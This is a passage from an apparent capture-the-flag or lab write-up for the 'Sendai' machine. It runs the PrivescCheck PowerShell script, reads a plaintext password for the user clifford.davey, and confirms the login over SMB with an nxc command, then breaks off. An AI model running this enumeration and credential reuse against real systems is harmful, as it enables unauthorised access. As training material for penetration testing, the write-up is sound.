 ```bash
. .\PrivescCheck.ps1
Invoke-PrivescCheck
```

![image.png](../images/sendai%2024.png)

Now let’s see if we can find anything interesting

![image.png](../images/sendai%2025.png)

> Notice that we found a password for a user named clifford.davey
username: clifford.davey
password: RFmoB2WplgE_3p
> 

Let’s test the new user password

```bash
nxc smb sendai.vl -u clifford.davey -p 'RFmoB2WplgE_3p'
```

![image.png](../images/sendai%2026.png)

As we see the password is working

Now let’s see the new user permissions

